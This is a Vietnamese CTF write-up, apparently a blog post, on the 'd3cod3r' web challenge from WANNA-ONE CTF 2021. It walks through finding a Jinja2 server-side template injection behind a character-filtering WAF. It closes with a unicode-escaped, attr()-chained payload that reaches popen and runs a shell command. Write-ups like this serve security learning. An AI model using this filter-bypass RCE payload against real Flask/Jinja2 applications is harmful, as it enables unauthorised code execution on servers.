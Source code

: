 ```yaml
---
layout: post
title: "WRITEUP WANNA-ONE CTF 2021: WEB"
categories: CTF
toc: true
render_with_liquid: false
---
```


Xin chào mọi người. Gần bước qua năm mới thì có 1 ctf của UIT tổ chức, đây là dịp để ôn luyện lại kiến thức mình đã học được và cũng như học được những thứ mới vì vậy mình muốn lưu lại một cái gì đó kỉ niệm cũng như những solution cho những challenge web khá hay mà cuộc thi đã phát hành.

Tất cả source code của bài mình để ở đây nhé  [SOURCE](https://github.com/DauHoangTai/WriteupCTF/tree/master/wargame/UIT_CTF)

## Challenge d3cod3r
Bài này thì tác giả không cung cấp source nên việc mình làm đầu tiên và đi tìm hiểu chương trình hoạt động như nào, có những tính năng gì. Sau khi mình fuzz thì thấy được web có 2 `route` chính:
+ `/encode` -> nhận input của mình và render ra chuỗi base64 encode
+ `/decode` -> đưa vô chuỗi base64 encode, sau đó chương trình sẽ decode và render ra plaintext.

### IDEA
- Khi mình thấy input được đưa vào sẽ base64 encode nhưng đưa chuỗi base64 encode đó qua route `/decode` để decode thì sẽ trả về lại chuỗi ban đầu của chúng ta nhập vào thì mình đã nghĩ có thể bài này liên quan đến `xss` hoặc `ssti`. Nhưng mình không thấy có route vào để send cho bot hay link bot => có vẻ không phải xss.
- Khi mình check `header` mà reponse trả về là `Server: Werkzeug/2.0.2 Python/3.8.12` => có thể `ssti`.
- Tới đây mình thử payload đơn giản của ssti {% raw %}`{{1-1}}`{% endraw %} (base64 encode trước), nếu như kết quả sau khi decode bằng `0` => sure ssti. 
- Nhưng kết quả trả về `WAF: <-- / -->` => có thể một số kí tự đã bị lọc, mình có thử thêm `+ - *` thì cũng bị lọc hết. Mình có thử tiếp payload {% raw %}`{{config}}`{% endraw %} nhưng kết quả `config` vẫn bị lọc. Tới đây dù kết quả mình mong muốn là `0` như ban đầu để confirm bài này dính `ssti` nhưng từ các char bị filter ở trên thì mình đã phần nào đoán ra và sure bài này là `ssti`.
- Nhiệm vụ của mình bây giờ cần đi tìm những kí nào khác bị filter để từ đó có thể gen ra 1 payload có thể rce.
- Sau một thời gian thì mình đã tìm ra một số char và chuỗi bị filter: `[ ] config session request cycler self lipsum` thêm một số char đi kèm với nhau mới bị lọc như `""`, `''`,{% raw %}`{{()`{% endraw %}.
- Nhưng có một số kí tự sau có thể gen thành payload mà mình hay sài thì không bị filter `\ ' " ()` => mình sử dụng những char này (cách này là sử dụng unicode).

### Payload

{% highlight text %}
{% raw %}
{{"\u0022\u0022"|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(0)|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(132)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("popen")("ls")|attr("read")()}}
{%  endraw %}
{% endhighlight %}
